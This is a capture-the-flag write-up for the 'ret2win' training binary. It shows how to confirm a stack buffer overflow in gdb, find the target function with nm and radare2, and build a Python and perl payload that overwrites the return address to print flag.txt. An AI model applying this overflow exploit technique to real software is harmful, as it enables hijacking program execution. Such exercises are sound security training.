

# ret2win

Let's see what the binary does:

```
./ret2win
```


My input was `ch35hireC4t` and the program ended.

OK. Now pay attention now to the big clue provided: **"I will attempt to fit 56 bytes of user input into 32 bytes of stack buffer"**.

Let's start investigating:
1. Is it possible to overwrite the return address easily?
2. If so, where will we direct the program?

Remember that the goal is to print the contents of `flag.txt`

## Exploration
### Is it possible to overwrite the return address easily?
```
gdb ./re2win
```
```
r <<< $(python3 -c 'print("A"*44 + "B"*4)')
```


### If so, where will we direct the program?
```
nm ret2win32 | grep " t "
```


Maybe `ret2win` is our target?<br />
Let's see

```
r2 ./ret2win32
```
```
aaa
```
```
afl
```
```
s sym.ret2win
```
```
pdf
```


Yes.

## Building exploit
```python
import struct

# create the exploit
garbage      = b'A'*44
ret2win_addr = struct.pack("<L", 0x0804862c)
expoit       = garbage + ret2win_addr

# using this output as ./ret2win input
print(expoit)
"""
b'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA,\x86\x04\x08'
"""
```
```
echo $(perl -e 'print "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA,\x86\x04\x08"') | ./ret2win32
```


